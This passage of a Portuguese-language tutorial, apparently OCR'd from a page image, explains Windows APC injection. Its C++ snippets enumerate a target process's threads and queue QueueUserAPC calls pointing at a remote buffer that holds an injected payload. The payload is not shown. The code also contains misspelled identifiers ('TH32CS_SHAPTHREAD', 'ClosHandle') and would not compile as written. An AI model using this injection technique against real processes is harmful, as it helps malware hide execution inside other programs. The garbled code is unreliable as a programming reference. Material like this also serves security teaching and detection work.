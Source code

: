 A função `QueueUserAPC` tem a seguinte sintaxe:

```cpp
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

Onde:

- `[in] pfnAPC` é um ponteiro para a função a ser executada quando a *thread* executar uma operação *alertable wait*, em nosso caso, um ponteiro para o buffer onde injetamos o código;
- `[in] hThread` um *handle* para a *thread* alvo;
- `[in] dwData` um parâmetro a ser passado para a função apontada para o APC, caso exista.

## Implementação no código

Primeiramente, precisamos enumerar todas as *threads* do processo alvo, para isso criaremos uma função que receberá o PID do processo alvo e um vetor que receberá os IDs das suas *threads*. Criaremos nesta função um *snapshot* de todas as *threads* e iteraremos sobre elas comparando o PID do processo dono.

```cpp
DWORD getThIDs(DWORD pid, std::vector<DWORD>& thIds) {
    HANDLE thSnapshot;
    THREADENTRY32 te;
    te.dwSize = sizeof(THREADENTRY32);

    thSnapshot = CreateToolhelp32Snapshot(TH32CS_SHAPTHREAD, NULL);
    if (Thread32First(thSnapshot, &te)) {
        do {
            // comparando o pid do processo com o pid do dono da thread
            if (pid == te.th32OwnerProcessID) {
                //caso positivo, adiciona o ID da thread no vetor
                thIds.push_back(te.th32ThreadID);
            }
        } while (Thread32Next(thSnapshot, &te));
    }

    ClosHandle(thSnapshot);
    return !thIds.empty();
}
```

Uma vez que temos o vetor com os IDs de todas as *threads* do processo alvo, podemos implementar o código que fará a iteração com vetor, utilizando a função `QueueUserAPC` apara enfileirar um APC em cada uma, apontando para o buffer onde copiamos o *payload*.

```cpp
    // iterando sobre os IDs das threads
    if (getThIDs(pid, thIds)) {
        for (DWORD thId : thIds) {
            ht = OpenThread(THREAD_SET_CONTEXT, FALSE, thId);
            if (ht) {
                QueueUserAPC((PAPCFUNC)remoteB, ht, NULL);
                CloseHandle(ht);
            }
        }
    }
```
